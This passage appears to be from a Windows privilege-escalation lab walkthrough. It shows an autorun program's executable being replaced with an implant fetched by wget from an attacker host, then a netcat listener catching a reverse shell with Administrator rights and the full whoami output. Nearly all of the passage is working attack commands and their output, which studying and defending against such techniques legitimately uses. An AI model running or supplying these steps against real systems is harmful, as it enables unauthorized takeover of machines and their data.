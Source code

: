 Transfer and replace the original executable with PowerShell:

```powershell
PS C:\> wget 192.168.119.130/implant.exe -O "C:\Program Files\Autorun Program\program.exe"
```

On the attacker machine, we will set up a listener:

```bash
❯ nc -lvnp 443
```

Now let's sign out and sign in as Administrator and wait a bit, once we have waited we should receive a connection as the Administrator user:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 58708
Microsoft Windows [Version 10.0.22000.318]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                     SID                                  
============================= ============================================
desktop-bn\administrator S-1-5-21-264094270-2388996790-3434637240-500


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                           

```